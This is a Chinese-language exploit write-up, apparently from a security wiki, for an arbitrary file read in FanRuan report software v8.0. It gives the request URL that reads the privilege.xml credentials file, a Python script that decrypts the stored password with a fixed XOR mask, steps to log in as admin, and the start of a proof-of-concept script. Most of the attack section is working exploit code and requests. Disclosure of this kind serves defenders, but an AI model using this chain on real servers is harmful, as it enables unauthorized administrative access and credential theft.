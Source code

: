 ```
                int var5 = Integer.parseInt(var4, 16) ^ PASSWORD_MASK_ARRAY[var2];
                var1.append((char)var5);
                ++var2;
            }

            var0 = var1.toString();
        }

        return var0;
    }
```

```
# 使用python写出的解密代码为
cipher = 'xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx' #密文
PASSWORD_MASK_ARRAY = [19, 78, 10, 15, 100, 213, 43, 23] #掩码
Password = ""
cipher = cipher[3:] #截断三位后
for i in range(int(len(cipher) / 4)):
    c1 = int("0x" + cipher[i * 4:(i + 1) * 4], 16)
    c2 = c1 ^ PASSWORD_MASK_ARRAY[i % 8]
    Password = Password + chr(c2)
print (Password)
```

**这里使用上面讲述的原理进行复现, 访问目标**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el6IjmnZOctRb5PH0d6YmibMIeWiapDNEMibecbrXVjAoR2GgOPMicoMS9LJ7ibMx2qPib7Q0ibiasRnH8icWbw/640?wx_fmt=png)

```
路径分为两种
/WebReport/ReportServer
ReportServer
```

**访问 POC 为, 读取密码文件 privilege.xml**

```
/WebReport/ReportServer?op=chart&cmd=get_geo_json&resourcepath=privilege.xml
```

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el6IjmnZOctRb5PH0d6YmibMIfKmZkoDicJlqu6fppJ3RSfZGkcyPJUiaH84Qf7ypMMLFH1eLwzsibgEag/640?wx_fmt=png)

**使用解密脚本解密文件  
**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el6IjmnZOctRb5PH0d6YmibMIePBoRqXQgTKpeEric9T9h1TakKOzO9ccEcGdqiayPnPvpjTBibdSDIUBw/640?wx_fmt=png)

**得到密码，即可登陆后台系统，账户为 admin**

![](https://mmbiz.qpic.cn/mmbiz_png/ibicicIH182el6IjmnZOctRb5PH0d6YmibMIibmE3iczkvmCn2qic8ENfn2LrzAlt8P7AOI4A68QhiaI2V0YqlnlacQgkg/640?wx_fmt=png)

 ****四:  漏洞 POC🦉****

```
import requests
import sys
import re
from requests.packages.urllib3.exceptions import InsecureRequestWarning

def title():
    print('+------------------------------------------')
    print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')
    print('+  \033[34mGithub : https://github.com/PeiQi0                                 \033[0m')
    print('+  \033[34m公众号  : PeiQi文库                                                   \033[0m')
    print('+  \033[34mVersion: 帆软报表 v8.0                                              \033[0m')
    print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')
    print('+  \033[36mUrl         >>> http://xxx.xxx.xxx.xxx                             \033[0m')
```